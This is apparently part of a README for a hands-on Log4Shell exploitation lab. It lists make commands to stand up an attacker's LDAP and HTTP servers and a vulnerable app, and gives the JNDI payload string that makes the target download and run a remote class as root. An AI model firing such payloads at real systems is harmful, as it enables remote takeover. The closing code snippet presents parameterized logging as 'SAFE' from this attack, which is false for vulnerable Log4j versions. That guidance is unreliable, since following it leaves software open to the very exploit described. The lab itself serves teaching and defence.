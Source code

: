 **Manual Mode (Requires 4 terminals for visibility):**

**Terminal 1 - HTTP Server:**
```bash
make http-server
```

**Terminal 2 - LDAP Server:**
```bash
make ldap-server
```

**Terminal 3 - Vulnerable Application:**
```bash
make vulnerable-server
```

**Terminal 4 - Execute Exploit:**
```bash
make test-exploit   # Send the malicious payload
make verify         # Check if exploit succeeded
```

You should see output showing command execution as **root** inside the container!

## How the Exploit Works

### Attack Chain
```
1. Attacker sends:  ${jndi:ldap://192.168.1.100:1389/Exploit}
2. Log4j parses:    JNDI lookup triggered
3. Connects to:     LDAP server (port 1389)
4. LDAP redirects:  http://192.168.1.100:8888/Exploit.class
5. Java downloads:  Malicious class file
6. Class loads:     Static initializer executes
7. Result:          Remote Code Execution as root!
```

### Visual Attack Flow
```
┌─────────────┐      ┌──────────────┐      ┌─────────────┐      ┌──────────────┐
│   Attacker  │─────>│  Vulnerable  │─────>│    LDAP     │─────>│     HTTP     │
│             │ JNDI │   Log4j App  │ Ref  │   Server    │Class │    Server    │
└─────────────┘      └──────────────┘      └─────────────┘      └──────────────┘
                              │                                          │
                              │                                          │
                              └──────────< Downloads Exploit.class <─────┘
                              │
                              ▼
                        [Code Execution]
                   Runs commands as root
```

### Vulnerable Code Pattern
```java
// VULNERABLE - User input in format string
logger.error("Request: " + userInput);

// SAFE - Parameterized message
logger.error("Request: {}", userInput);
```
